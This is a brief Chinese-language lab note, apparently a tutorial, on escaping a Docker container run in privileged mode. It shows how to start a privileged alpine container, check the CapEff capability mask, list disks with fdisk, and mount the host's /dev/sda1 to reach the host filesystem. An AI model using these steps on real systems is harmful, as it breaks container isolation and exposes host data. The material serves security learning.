



# 配置不当--特权模式

运维人员在启动容器得时候，是以root权限启动得就造成特权逃逸

特权模式通常是指以root用户或具有特殊权限的用户身份运行的进程
```shell
启动靶场：docker run --rm --privileged=true -it alpine
```
 

检测\[只要输出； 其中一段就是特权\]

```shell
cat /proc/self/status \| grep CapEff \| grep -E '0000003fffffffff\|0000001fffffffff'
```



 
```shell
fdisk -l 查看目录
```


```shell

特权逃逸：mkdir /test1 && mount /dev/sda1 /test1

判断结果：cd /test1/ && ls
```
 



 

逃逸成功

接下来看逃逸成功之后的操作---docker
